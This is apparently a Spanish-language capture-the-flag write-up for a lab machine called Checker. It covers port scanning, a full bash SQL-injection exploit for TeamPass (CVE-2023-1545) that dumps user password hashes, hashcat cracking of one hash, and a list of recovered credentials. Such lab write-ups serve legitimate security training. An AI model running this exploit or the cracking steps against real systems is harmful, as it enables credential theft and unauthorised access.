

# Copy of Copy of Checker

<figure><figcaption></figcaption></figure>

***

## Reconnaissance

Realizaremos un reconocimiento con `nmap` para ver los puertos que están expuestos en la máquina **`Checker`**. Este resultado lo almacenaremos en un archivo llamado `allPorts`.

```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.11.56 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-05 01:00 CET
Initiating SYN Stealth Scan at 01:00
Scanning 10.10.11.56 [65535 ports]
Discovered open port 8080/tcp on 10.10.11.56
Discovered open port 22/tcp on 10.10.11.56
Discovered open port 80/tcp on 10.10.11.56
Completed SYN Stealth Scan at 01:01, 23.91s elapsed (65535 total ports)
Nmap scan report for 10.10.11.56
Host is up, received user-set (0.096s latency).
Scanned at 2025-03-05 01:00:50 CET for 24s
Not shown: 65523 closed tcp ports (reset), 9 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 63
80/tcp   open  http       syn-ack ttl 63
8080/tcp open  http-proxy syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 24.02 seconds
           Raw packets sent: 66520 (2.927MB) | Rcvd: 66149 (2.647MB)
```


```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.56
	[*] Open ports: 22,80,8080

[*] Ports copied to clipboard
```


```bash
❯ nmap -sCV -p22,80,8080 10.10.11.56 -A -oN targeted -oX targetedXML
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-05 01:01 CET
Nmap scan report for checker.htb (10.10.11.56)
Host is up (0.067s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 aa:54:07:41:98:b8:11:b0:78:45:f1:ca:8c:5a:94:2e (ECDSA)
|_  256 8f:2b:f3:22:1e:74:3b:ee:8b:40:17:6c:6c:b1:93:9c (ED25519)
80/tcp   open  http    Apache httpd
|_http-title: 403 Forbidden
|_http-server-header: Apache
8080/tcp open  http    Apache httpd
|_http-title: 403 Forbidden
|_http-server-header: Apache
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   69.06 ms 10.10.14.1
2   59.92 ms checker.htb (10.10.11.56)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.57 seconds
```


```bash
❯ xsltproc targetedXML > index.html

❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```


<figure><figcaption></figcaption></figure>


```bash
❯ cat /etc/hosts | grep checker.htb
10.10.11.56 checker.htb
```


```bash
❯ whatweb -a 3 http://checker.htb
http://checker.htb [403 Forbidden] Apache, Country[RESERVED][ZZ], HTTPServer[Apache], IP[10.10.11.56], Title[403 Forbidden]
❯ whatweb -a 3 http://checker.htb:8080
http://checker.htb:8080 [403 Forbidden] Apache, Country[RESERVED][ZZ], HTTPServer[Apache], IP[10.10.11.56], Title[403 Forbidden]
```


<figure><figcaption></figcaption></figure>






```bash
#!/bin/bash

if [ "$#" -lt 1 ]; then
  echo "Usage: $0 <base-url>"
  exit 1
fi

vulnerable_url="$1/api/index.php/authorize"

check=$(curl --silent "$vulnerable_url")
if echo "$check" | grep -q "API usage is not allowed"; then
  echo "API feature is not enabled :-("
  exit 1
fi

# htpasswd -bnBC 10 "" h4ck3d | tr -d ':\n'
arbitrary_hash='$2y$10$u5S27wYJCVbaPTRiHRsx7.iImx/WxRA8/tKvWdaWQ/iDuKlIkMbhq'

exec_sql() {
  inject="none' UNION SELECT id, '$arbitrary_hash', ($1), private_key, personal_folder, fonction_id, groupes_visibles, groupes_interdits, 'foo' FROM teampass_users WHERE login='admin"
  data="{\"login\":\""$inject\"",\"password\":\"h4ck3d\", \"apikey\": \"foo\"}"
  token=$(curl --silent --header "Content-Type: application/json" -X POST --data "$data" "$vulnerable_url" | jq -r '.token')
  echo $(echo $token| cut -d"." -f2 | base64 -d 2>/dev/null | jq -r '.public_key')
}

users=$(exec_sql "SELECT COUNT(*) FROM teampass_users WHERE pw != ''")

echo "There are $users users in the system:"

for i in `seq 0 $(($users-1))`; do
  username=$(exec_sql "SELECT login FROM teampass_users WHERE pw != '' ORDER BY login ASC LIMIT $i,1")
  password=$(exec_sql "SELECT pw FROM teampass_users WHERE pw != '' ORDER BY login ASC LIMIT $i,1")
  echo "$username: $password"
done
```



```bash
❯ chmod +x CVE-2023-1545.sh

❯ ./CVE-2023-1545.sh http://checker.htb:8080/
There are 2 users in the system:
admin: $2y$10$lKCae0EIUNj6f96ZnLqnC.LbWqrBQCT1LuHEFht6PmE4yH75rpWya
bob: $2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy
```


```bash
❯ echo '$2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy' > hashes
❯ hashid '$2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy'
Analyzing '$2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt 
❯ hashcat -a 0 -m 3200 hashes /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
============================================================================================================================================
* Device #1: cpu-sandybridge-11th Gen Intel(R) Core(TM) i5-1135G7 @ 2.40GHz, 2913/5890 MB (1024 MB allocatable), 8MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 0 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344389
* Bytes.....: 139921571
* Keyspace..: 14344389

Cracking performance lower than expected?                 

* Append -w 3 to the commandline.
  This can cause your screen to lag.

* Append -S to the commandline.
  This has a drastic speed impact but can be better for specific attacks.
  Typical scenarios are a small wordlist but a large ruleset.

* Update your backend API runtime / driver the right way:
  https://hashcat.net/faq/wrongdriver

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

$2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy:cheerleader
```


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>




<figure><figcaption></figcaption></figure>



<figure><figcaption></figcaption></figure>




```bash
❯ cat credentials.txt
bob:cheerleader --> TeamPass
reader:hiccup-publicly-genesis --> SSH Access
bob@checker.htb:mYSeCr3T_w1kI_P4sSw0rD --> Bookstack Login
```


```bash
❯ ssh reader@checker.htb
(reader@checker.htb) Password: 
(reader@checker.htb) Verification code: 
(reader@checker.htb) Password: 
```


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>





<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>


